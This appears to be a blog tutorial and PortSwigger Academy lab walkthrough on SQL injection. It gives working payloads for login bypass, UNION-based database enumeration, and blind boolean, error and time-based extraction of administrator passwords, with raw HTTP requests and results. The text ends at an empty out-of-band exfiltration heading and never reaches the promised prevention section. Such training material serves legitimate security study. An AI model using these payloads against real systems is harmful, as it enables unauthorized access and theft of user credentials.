






This post will explain what SQL-injection (SQLi) is, how we can find SQLi vulnerabilities in web applications, how we can weaponize this vulnerability and how to prevent it. While researching and explaining the topic, we will go through several easy and more advanced examples that are available for free at [PortSwigger Academy](https://portswigger.net/web-security/sql-injection). 

## What is SQL-injection?
Let's first take a look at what SQL exactly is. SQL, or Structured Query Language, is a standard language for storing, manipulating and retrieving data in databases (some examples include but are not limited to MS SQL Server, Oracle and MySQL). It uses easy to read and straight forward syntax to perform CRUD (create, read, update and delete) operations on databases. An example of a simple SQL query looks like this.

```sql
SELECT * FROM users where username = "admin" AND password = "password"
```

This query would look inside of its database and look for all users that match the where statement. SQL is often used by web applications to retrieve data from users, or present data to users. For example, when you want to sign in to a website, the web application will query its database to see if the credentials you supplied match a given user, and if its the case it will grant you access to the website, if not it will ask you to try again. 

In our previous example, the input for the query that is sent to the backend server is somewhat controlled by the user, as the user supplies the username and password inputs. This is where SQLi comes in to play.

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. By doing so, attackers can possibly retrieve data from the database that they are not supposed to retrieve, bypass login forms or in some cases even execute code on the underlying backend server. Depending on how the database is setup, this could lead to the leakage of confidential user credentials, company assets or other sensitive information. 

### Basic SQL-injection Example
Let's take another look at the SQL query that we wrote earlier. 

```sql
SELECT * FROM users where username = "admin" AND password = "password"
```

In this query we, the user, are attempting to login to a web application. By specifying our credentials we are capable of modifying the SQL query that is sent to the backend server. As long as we specify valid characters such as letters and numbers, the SQL query will simple run as if nothing has happened. What would happen if we inject specific key SQL symbols as username or password? Assuming that the web application is not protected by a web application firewall (WAF) or has any SQLi protections built in, we can try to alter the query with the following payload in the username parameter: 

```SQL
" -- -
```

This payload will close the double quotes and comment out everything after it (as -- - is used to comment out lines in several implementations of SQL). If we inject it into our login form, our query to the server would look like this. 

```sql
SELECT * FROM users where username = "" -- -" AND password = "password"
```

The server would just run the query asif nothing bad happened. But what if we fully alter the SQL query the server runs.. Maybe we can use a simple trick to bypass the login form. To do this, we can use the following basic payload.

```SQL
admin" OR 1 = 1-- -
```

This payload will change the SQL query into a query that will look for a username called admin, or will check whether 1 = 1. The payload will then comment out the rest of the SQL statement. If we inject the payload, the query that is sent to the backend server will look like this.

```sql
SELECT * FROM users where username = "admin" OR 1 = 1-- -" AND password = "password"
```

I can assure you that 1=1 will return True, meaning that the "username = admin OR 1 = 1" query will return true, meaning that the query used to login to the web application returns true, meaning that we can bypass the login form and log into the application through an SQLi vulnerability and login as the admin user. 

### Types of SQL-injection Attacks
There are four main types of SQL-injection attacks - error-based, union-based, boolean-based and time-based SQL-injections.  

During an **error-based SQLi attack**, the attacker will send different payloads to the backend server with the attempt to produce error messages. Through these error messages, the attacker can gather information about the underlying database.

The **union-based SQLi attack** leverages SQL's UNION keyword to obtain data from different tables within the database. Union attacks are only useful when the results of the query are returned within the application's response. By using the UNION command, an attacker can connect several queries together, allowing to obtain sensitive data from the backend server within a single HTTP response. 

The **boolean-based SQLi attack** attempts to send queries to the backend server that will generate different results depending on whether the query returned true or false. By analyzing the HTTP responses the attacker can gain more information regarding the underlying database. 

During a **time-based SQLi attack**, the attacker leverages the SQL sleep commands in order to let the database wait for a few seconds before continueing with its normal processes. When the attacker sends a valid time-based SQLi payload, the attacker will notice a delay in response and use this to obtain information about the backend. 

## How to find SQL-injection Vulnerabilities
SQLi vulnerabilities can often be found in web application locations that allow users to insert input. Some examples include but are not limitited to login forms, download and upload functionalities and search / index functionalities. 

Most of the SQLi injection vulnerabilities are present within the WHERE clause of a SELECT query. There are however also other SQL injection points, such as:

- In UPDATE statements, within the updated values or the WHERE clause.
- In INSERT statements, within the inserted values.
- In SELECT statements, within the table or column name.
- In SELECT statements, within the ORDER BY clause.

When finding a web application location that could be vulnerable, we can attempt to find SQLi vulnerabilities manually, or through automated tooling. Manually we can send bad characters to the server in order to make it produce error messages or send sleep payloads to make the database wait a few seconds before processing any other requests.

Let's take the login form example we discussed earlier, and actually try it on a real (intentionally vulnerable) web application created by PortSwigger Academy. After locating the login page, I use BurpSuite to proxy the requests that are sent to and received from the server, allowing us to take a closer look at what's happening. Let's login using the admin:admin credentials.

```http
POST /login HTTP/1.1
Host: acd81fdd1e70fbd6c02c15a700ff0027.web-security-academy.net
Cookie: session=kBtnZGlerXUcAL5xXVfGhAhn6CbtCqrK
[...]

csrf=0M8t7LV5kPNGuHjfNA4tjuchYKxwrsmU&username=admin&password=password
```

We can see that the username is sent as "admin" and the password is sent as "password". To find out whether the application is vulnerable to SQLi, we can either manually start sending input to the server, and hope to obtain error messages. 

Let's first take a look at how to manually find an error-based SQLi. Let's change the input of our username parameter to be

```SQL
' " -- -
```

Our request will now look like this

```http
POST /login HTTP/1.1
Host: acd81fdd1e70fbd6c02c15a700ff0027.web-security-academy.net
Cookie: session=kBtnZGlerXUcAL5xXVfGhAhn6CbtCqrK
[...]

csrf=0M8t7LV5kPNGuHjfNA4tjuchYKxwrsmU&username='"--+-&password=
```

After which the server responds with the following.

```http
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 2363
```

And we see that we were able to send a request to the server which it could not understand, thus responding with an error code 500 - internal server error. When a HTTP 500 is sent back to the user, it is a signal that user input is being processed by the database. 

Let's try the payload we created before, and see whether we can bypass authentication and login as the administrator user. To do so, we use the following payload as username.

```SQL
administrator' OR 1=1 --
```

Which generated the following HTTP request.

```HTTP
POST /login HTTP/1.1
Host: accc1f3f1ea1bdf6c05103b100b00020.web-security-academy.net
[...]

csrf=gG7Y3cZY3HaA1SahfiK0F7nsKvSZc8Aj&username=administrator%27+OR+1%3D1--&password=asdf
```

The HTTP request shows a URL encoded version of the payload. After sending the payload, we get redirected to the /my-account page, and are logged in as the administrator user. 

In the previous example we looked at a first-order SQLi, as the data that was sent from the user to the server was immidiately processed in an unsafe manner, thus the SQLi payload was executed straight away. There is also a phenomenon called second-order SQLi, or stored SQLi, which occurs when the malicious input of the user is stored in the database for future use. When another part of the application later requests the data stored within the database, the saved SQLi payload gets executed, and an SQLi attack can be triggered. 

## SQL-injection Examples
This section will take a look at some of the PortSwigger academy labs, and provide the walkthrough and solutions for these questions. There are also community solutions and PortSwigger solutions available for all of the examples I will be showcasing. 

### Union-Based SQL-injection
Once we have figured out that the query that we will be injecting is vulnerable, we will have to enumerate the database to figure out what valid payloads we can send in order to obtain data. As mentioned before, the union keyword allows you to execute one or more additional SELECT queries and append the results to the original query. An example.

```SQL
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Which will retrieve the data from a and b in table 1, and the data from c and d in table 2. For a UNION query to work we have to meet two requirements.

1. The individual queries must return the same number of columns.
2. The datatypes within the columns must be compatible between the individual queries.

Therefore, prior to writing injection payloads, we will first need to figure out how many columns there are that we can use, and what data types they accept. Let's start with the first one. There are two methods available to figure out how many columns there are. 

The first method leverages the ORDER BY clauses. The ORDER BY clause can be incremented all the way up until an error occurs because a higher value than the largest column index was specified. This method would look like this.

```SQL
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

Once the requested ORDER BY index exceeds the maximum column index we will know how many columns are available. The second method involves a UNION SELECT clause. When the number of NULL's do not match the number of columns, the database will produce an error message. This looks as follows.

```SQL
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

I personally prefer the second method. The reason we specify NULL instead of a character or integer, is because NULL is convertabile to every commonly used data type, and as such it will almost never produce an error. Additionally, when dealing with Oracle databases, we will have to specify a builtin table called "duel" in order for our UNION SELECT to work. This will look like this.

```SQL
' UNION SELECT NULL FROM DUAL--
```

Once we figured out how many columns we have, our next step is to figure out what type of data the columns are compatible with. We can do this by specifying a string value instead of a NULL in each column. An example would look like this.

```sql
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```

In case we are dealing with a column that only allows for integers, it would throw an error like this one.

```text
Conversion failed when converting the varchar value 'a' to data type int.
```

After learning about the data types that we can use in each column, we can then start with our UNION SELECT injection payloads. A simple payload would look like this.

```sql
' UNION SELECT username, password FROM users--
```

And would show a list of usernames and passwords from the users table. In the next section we will be taking a deeper dive into UNION SQLi payloads. 

### Gathering Database Information through SQL-injection
Before we can successfully exploit a SQLi vulnerability, we first need to gather information about the backend database. Different databases use different SQL syntax, thus require different payloads to perform a successful attack. To query the type and the version of the database, we can use the following syntaxis. 

```SQL
// Oracle
SELECT * FROM v$version

// PostgreSQL
SELECT version()

// Microsoft / MySQL
SELECT @@version
```

Let's take a look at some examples. For the examples I will be writing UNION SQLi payloads. The following example presents a webshop that has a built-in SQLi vulnerability within the category section. The page URL looks as follows.

```text
http://x.yz/filter?category=Gifts
```

For UNION injections it is important to first figure out the amount of columns we have available. To do so, we can use the following query, and add an extra NULL untill we do not receive an error.

```SQL
Gifts' UNION SELECT NULL FROM dual--
Gifts' UNION SELECT NULL,NULL FROM dual--
Gifts' UNION SELECT NULL,NULL,NULL FROM dual--
```

When we execute the first and third command, we get an error. When we execute the second payload, we do not, thus we are dealing with two columns.

We can then figure out what kind of data the columns are allowed to contain, by sending a string value instead of a NULL.

```SQL
Gifts' UNION SELECT 'a','a' FROM dual--
```

Both columns seem to allow strings. Let's add our version payload, to figure out the version of the database. We can either use the first or the second injection point. Let's use the second, and set the first one to NULL.

```SQL
Gifts' UNION SELECT NULL,banner FROM v$version--
```

And we see the results reflected back onto the web page!

<p>
	
</p>

Let's try the same for MySQL and MSSQL. We already know that we can use two columns, so let's inject the payloads right away. 

```SQL
Gifts' UNION SELECT NULL,@@version-- -
```

And the web page displays the version of the database. Please note that we have to specify a space after the comment in order to perform this SQLi. MySQL requires this space to properly read the input after the dashes as comments. Without the space the payload would not work. 

Now that we know some underlying information about the backend database, we can start enumerating databases, tables and columns within those tables. Most databases have a set of views named " information schema" that provide information about the database structure. By enumerating this view, we can find database names and table names. Let's write a payload that will retrieve this information for us. We first figure out that there are two columns available, that both accept string values.

```sql
Accessories' UNION SELECT NULL,NULL-- -

Accessories' UNION SELECT 'a','a'-- -
```

We can then use one of the inputs to obtain the information schema of the database.

```sql
Accessories' UNION SELECT table_schema,table_name FROM information_schema.tables-- -
```

This query retrieves all available tables from the database.

<p>
	
</p>

We find a user table called "users_iycpka". We can write the following query to retrieve the columns from this user table.

```SQL
Accessories' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_iycpka'-- -
```

Which presents us with the following results.

<p>
	
</p>

We can see that there are two tables, named username_jrogxx and password_lqozny. Let's retrieve the contents of these tables like so.

```sql
Accessories' UNION SELECT username_jrogxx, password_lqozny FROM users_iycpka-- -
```

And we find the credentials for the administrator user! We can do the same for an Oracle-based backend database. We would run the following queries in order:

1. Figure out how many columns to use in our UNION injection.
2. Figure out what table names are used.
3. Figure out what columns are present in these tables.
4. Read the data from these columns.

```SQL
// 1
Accessories' UNION SELECT NULL FROM dual-- -
Accessories' UNION SELECT NULL,NULL FROM dual-- -

// 2
Accessories' UNION SELECT table_name,NULL FROM all_tables-- -

// 3 
Accessories' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_XZDKBG'-- -

// 4
Accessories' UNION SELECT USERNAME_UVCIHB,PASSWORD_MANJSM FROM USERS_XZDKBG-- -
```

Which provides us the usernames and passwords from the "users_xzdkbg" table.

### Blind SQL-injection Attacks
Often times the SQLi vulnerabilities are blind vulnerabilities, meaning that the application does not provide any error messages or changes within the web application interface or HTTP response after being successfuly executed. Through blind SQLi we can still perform similar attacks, and read sensitive data from databases. In order to figure out whether a blind SQLi payload worked, we could implement several techniques.

1. We could change the logic of a query to trigger a detectable difference in the application's response, such as the injection of specific boolean logic or by specifying an action that would trigger an error (such as a divide-by-zero action).
2. We could perform a time-based SQLi attack, and use sleep payloads in order to make the server wait a few seconds prior to executing the rest of the payload. 
3. We could leverage out-of-band network interaction, such as a DNS lookup to a specific domain, and capture the request from the server to the domain to figure out whether or not the query worked.

Let's take a look at one of the PortSwigger Academy lab exercises for blind SQLi attacks. 

### Blind SQL-injection with Conditional Responses

The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie, like so.

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'uRh4QDaTjwx9pcRl'
```

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows. To work with this SQLi attack vector, we will be using BurpSuite. Let's intercept a request to the server, and see what it looks like.

```http
GET /product?productId=1 HTTP/1.1
Host: ac7c1fde1ed34b3bc09345ad00ec00cd.web-security-academy.net
Cookie: TrackingId=uRh4QDaTjwx9pcRl; session=1g5IC9GsAYzwmTDyOrVOE1GWXA8OfEZp
[...]
```

We can see the TrackingId is set to "uRh4QDaTjwx9pcRl". Let's send this request to the repeater (by pressing ctrl + r), and see if we can trigger an SQLi. If we execute a regular request, we can see that the response contains the "Welcome back!" string.

<p>
	
</p>

If we set the payload to a statement that returns True, we will still see the "Welcome back!" string.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl'+AND+'1'='1
```

When we write a payload that returns False, we no longer see the "Welcome Back!" string. 

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl'+AND+'1'='2
```

Meaning, that we can see a change in output, depending on whether or not our condition returns True or False. To database that we are dealing with contains a table called "users", with two columns called "username" and "password". We will be attempting to figure out the credentials for the administrator user. To do this, we can use substrings. We can inject a payload that will return whether the first character of the password that we are "guessing" is True or False, by implementing a binary search algorithm and check whether the value of a specific letter is higher or lower than the one that we guessed.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) > 'm
```

The query above prints "Welcome Back!" to the web page, thus the query returns true, thus the first letter of the password for the administrator user is larger than "m". We can next attempt the letter "t", like so.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

Which returns the "Welcome Back!" string to the web page again. After a few attempts, I got to the point where "> y" returned true, thus the last letter that was possible was a z. I try the following statement, which returns True.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'z
```

So now we know the first letter of the password for the administrator user is 'z'. Let's figure out the next letters. After a while I found out that the second letter is an 'L'.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 2, 1) = 'l
```

And the third one is a v...

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 3, 1) = 'v
```

And we continue this procedure all the way until we find the password. We find the g.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 4, 1) = 'g
```

We find the d.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 5, 1) = 'd
```

We find the k.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 6, 1) = 'k
```

And we've had enough. Let's automate this, because we are not going to continue doing this for an eternity. Let's check for the length of the password by specifying numbers instead of letters.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>10)='a
```

Which returns True. After sending several requests, I ended up figuring out that the password is 20 characters in length.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a
```

Let's use BurpSuite's intruder functionality to bruteforce this process for us. We set the 'a' as the payload, and use the attack type "sniper", because we will be focusing on only one parameter.

<p>
	
</p>

Under payloads, we will select "simple list", and add the whole alphabet a-z and all numbers 0-9 to the simple list under "payload options".  Under "options" --> "Grep - Extract", I set a grep for "Welcome back!". This allows the intruder to send us a notification when it finds the "Welcome back!" message.

As we already know the first 6 letters, I will start off with the 7th character by setting the cookie value like so.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=uRh4QDaTjwx9pcRl' AND (SELECT SUBSTRING(password,7,1) FROM users WHERE username='administrator')='§a§
```

When we press "start attack", the attack window will appear, and as soon as it finds the "Welcome back!" string it will show it to us. After a while I figured out that the password for my instance was "zlvgdk7oggwz1tl8pq8v", and managed to log in. 

### Blind SQL-injection with Conditional Errors
In the last example we looked at a blind SQLi with conditional responses. In this example we will be taking a look at a similar case, but with errors instead of responses. We will be analyzing a similar challenge as the one before, but this time the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The application runs a similar SQL query as the one before.

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'rZslZ6urwgIDx3eb'
```

But now, instead of seeing a "Welcome back!" string when running a query that returns True, we can trigger an error when our payload turns True, and therefore figure out that our injection works. We will be using the following payloads to test.

```SQL
xyz' AND (SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

In the example above we will be using the CASE keyword to write an if-statement. If 1=2, then we divide 1 by 0, else we return 'a'. Because 1 =! 2, the first query returns 'a', which does not cause any errors. The second statement returns 1/0, which causes a divide-by-zero error. 

Based on our [BurpSuite SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) we can try the following payloads that are similar to the one described above to figure out what kind of underlying database we are dealing with.

```SQL
// Oracle
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual

// Microsoft
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END

// PostgreSQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END

// MySQL
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

Spoiler alert, the Microsoft, PostgreSQL and MySQL databases return an HTTP 500 internal server error, but the Oracle query does not, indicating that we are dealing with an Oracle database. We wrote the following query that returned a 200 OK.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=rZslZ6urwgIDx3eb' AND (SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)='a
```

Let's see what happens if we trigger a divide-by-zero error.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=rZslZ6urwgIDx3eb' AND (SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)='a
```

And we get a 500 Internal Server Error message. Knowing this behavior, we can enumerate the password for the administrator user in a similar way as before, this time looking for a status 200 OK instead of a "Welcome back!" string. I'll show case one manual example, as we are dealing with an Oracle database this time. 

We can run the following query. 

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=rZslZ6urwgIDx3eb' || (SELECT CASE WHEN SUBSTR(password, 1, 1) < 'a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

Which returns HTTP 200 OK, thus is false. If we query a larger than 'a'

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=rZslZ6urwgIDx3eb' || (SELECT CASE WHEN SUBSTR(password, 1, 1) > 'a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

We get a HTTP 500 internal server error code, thus it's true. Similarly, we can use the same approach as we did last time in order to figure out how many characters the password contains. When we run the following query

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=rZslZ6urwgIDx3eb' || (SELECT CASE WHEN LENGTH(password) < 1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

We get a HTTP 200 OK. When we try this query

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=rZslZ6urwgIDx3eb' || (SELECT CASE WHEN LENGTH(password) > 1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

As the password was 20 characters in length during the last challenge, I check whether this is the case again using this query.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=rZslZ6urwgIDx3eb' || (SELECT CASE WHEN LENGTH(password) = 20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

Which returns an error, thus the password has a 20 character length. We can obtain the password through the intruder in a similar fashion as we did during the last challenge. Our intruder cookie value would be:

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=rZslZ6urwgIDx3eb' || (SELECT CASE WHEN SUBSTR(password, 1, 1) = '§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

We would create a similar list containing all letters a-z, and numbers from 0-9, and conduct the test for 20 characters in a row. After 20 attacks I figured out that the password for the administrator user in my instance is "m7kpjv34zg06b3k94iyt", and manage to login and complete the challenge.

### Blind SQL-injection with Time Delays
The last two examples work, when there's either a difference in response on the web page, or difference in HTTP status codes that we can observe. When neither of these two are present, we can use blind SQLi with time delays to make the server sleep a few seconds prior to presenting us with the response to our request. Depending on the database that we are dealing with, we can use one of the following four commands to trigger a delay. 

```SQL
// Oracle
dbms_pipe.receive_message(('a'),10)

// Microsoft
WAITFOR DELAY '0:0:10'

// PostgreSQL
SELECT pg_sleep(10)

// MySQL
SELECT sleep(10)
```

Once again, we will be facing a similar challenge which is vulnerable to an SQLi vulnerability within its tracking cookie. Let's see if we can create a query that will make the server sleep for 10 seconds. To do so, we can once again create a payload with an if statement (similar to a CASE statement), which causes the server to sleep for 10 seconds if the response to our query equals to True.

```SQL
// False
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 

// True
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

The payloads that we can use (which can be found in the [BurpSuite SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)) are the following.

```SQL
// Oracle
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual

// Microsoft
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'

// PostgreSQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

// MySQL
SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
```

Let's figure out what database we are dealing with first. After trying the different payloads, I figured out that we are dealing with a PostgreSQL database, as this payload makes the server sleep for 10 seconds. 

```HTTP
GET /product?productId=4 HTTP/1.1
Cookie: TrackingId=cTHS05KiqlQoIulY'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--
```

Similarly, we can execute the following request to trigger the sleep as well.

```HTTP
GET /product?productId=4 HTTP/1.1
Cookie: TrackingId=cTHS05KiqlQoIulY'||pg_sleep(10)--
```

Now that we know what database we are dealing with, we can try to extract the administrator's password from the database in a similar fashion as before, this time, using the output of the sleep command to figure out each character. Let's figure out the length first. We write the following query.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=5fq6yK8jhjZNtTAd'||(SELECT CASE WHEN LENGTH(password) > 1 THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator')--
```

And get a 10 second sleep, indicating that the password is longer than 1. We try the length of 20, to see if it's once again 20 characters long.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=5fq6yK8jhjZNtTAd'||(SELECT CASE WHEN LENGTH(password) = 20 THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator')--
```

And we get a 10 second sleep. Let's try to guess the first character manually.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=5fq6yK8jhjZNtTAd'||(SELECT CASE WHEN SUBSTRING(password, 1, 1) < 'm' THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator')--
```

Which makes us sleep for 10 seconds. I put the sleep timer to 3 seconds, as I don't want to wait for 10 seconds every time. Let's try the next one.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=5fq6yK8jhjZNtTAd'||(SELECT CASE WHEN SUBSTRING(password, 1, 1) < 'g' THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator')--
```

Puts the server to sleep for 3 seconds. After a few more guesses I figured out that the first character is an f, through the following query.

```HTTP
GET /product?productId=1 HTTP/1.1
Cookie: TrackingId=5fq6yK8jhjZNtTAd'||(SELECT CASE WHEN SUBSTRING(password, 1, 1) = 'f' THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator')--
```

We can now proceed as we did the last time, by sending the request to the intruder, and highering the character index for the password by 1, untill we figure out the whole 20 character password. We once again create a simple list containing all characters from a-z, and all numbers from 0-9. 

```HTTP
GET /product?productId=5 HTTP/1.1
Cookie: TrackingId=ur7ZziE0iRWNur33'||(SELECT CASE WHEN SUBSTRING(password, 2, 1) = '§f§' THEN pg_sleep(30) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator')--
```

I set the sleep time to 30 seconds, so it becomes very easy to spot when we get a hit. Let's run the attack 20 times :) A few minutes later I managed to figure out that the password for the administrator in my instance is "f2xmemhovoefxoiruijm". 

### Blind SQL-injection with out-of-band Interaction / Data Exfiltration
